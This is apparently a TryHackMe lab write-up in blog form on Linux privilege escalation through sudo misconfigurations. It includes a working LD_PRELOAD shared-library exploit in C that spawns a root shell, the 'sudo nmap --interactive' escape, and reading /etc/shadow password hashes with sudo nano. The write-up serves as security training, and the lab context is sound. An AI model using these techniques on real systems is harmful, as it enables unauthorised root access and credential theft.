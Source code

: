 ```yaml
---
layout: post
title: "THM Linux Privilege Escalation - sudo"
subtitle: "Misusing sudo"
date: 2025-04-05
tags: [pentest, tryhackme, redteam, linux, privesc, sudo]
cover-img: ""
thumbnail-img: /img/path/linux-priv-esc.png
comments: true
mathjax: true
---
```

# Nature of the Task

In this task the goal is to use use `sudo` in a variety of ways to access information that would normally be out of limits to a low privilege user.

# A bit of `sudo` recon...

The first thing to do is to to run `sudo -l` as the `karen` (low privilege) user to see what's available to us:

```sh
$ sudo -l
Matching Defaults entries for karen on ip-10-10-92-255:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-92-255:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

We can run 3 programs with `sudo`, namely `find`, `less`, and `nano`.

That answers the first question! Hooray!

# Capture the Flag! `find` and `cat`

The next question is to obtain the contents of `flag2.txt`. We can simply run `find` to locate the file on the system, we don't even need to run it with `sudo`!

```sh
$ find / -name "flag2.txt" 2>/dev/null
/home/ubuntu/flag2.txt
```
We can simply `cat /home/ubuntu/flag2.txt` to obtain our flag. No `sudo` needed!

# GTFOBins! `sudo nmap`

The next question requires a bit of research. *If* we had `sudo` access to `nmap`, how could we leverage this to obtain a `root` shell?

Let's head over to [GTFOBins](https://gtfobins.github.io/) and see what being able to run `nmap` with `sudo` could give us!

![[GTFOBins-nmap-search.png]]

Hmmm.... Shell? Sudo? Looks promising!

![[GTFOBins-nmap-sudo.png]]

So, looks like `sudo nmap --interactive` is enough to give us an interactive `root` shell.

# Hashed Passwords

Since we can run `sudo nano` we can simply open `/etc/shadow` and see the hash of Frank's password!

![[nano-etc-shadow-linux-priv-esc.png]]

# `LD-PRELOAD`

If our `sudo -l` had found that `env_keep+=LD_PRELOAD` we could have leveraged this to get a root shell. On either the target or our attacking machine, we'd need to compile the following C source code  (`shell.c`):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

We'd compile with the following parameters:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We'd need to get it on the target in a writable directory that we could execute from, and then we'd run it as follows:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <any binary we can run with sudo>
```

# Recap and Takeaways

- `sudo -l` is your first stop in any privilege escalation attempt — it reveals what commands can be run as root.
    
- You don’t always need `sudo` to find flags; simple tools like `find` and `cat` still go a long way.
    
- GTFOBins is an essential resource — it tells you exactly how to weaponize `sudo` permissions for common binaries like `nmap`.
    
- Tools like `nano` and `less` may seem harmless, but with `sudo`, they let you read protected files like `/etc/shadow`.
    
- The `LD_PRELOAD` technique is powerful — if environment variables are preserved with `sudo`, it can be used to inject a shared library and pop a root shell.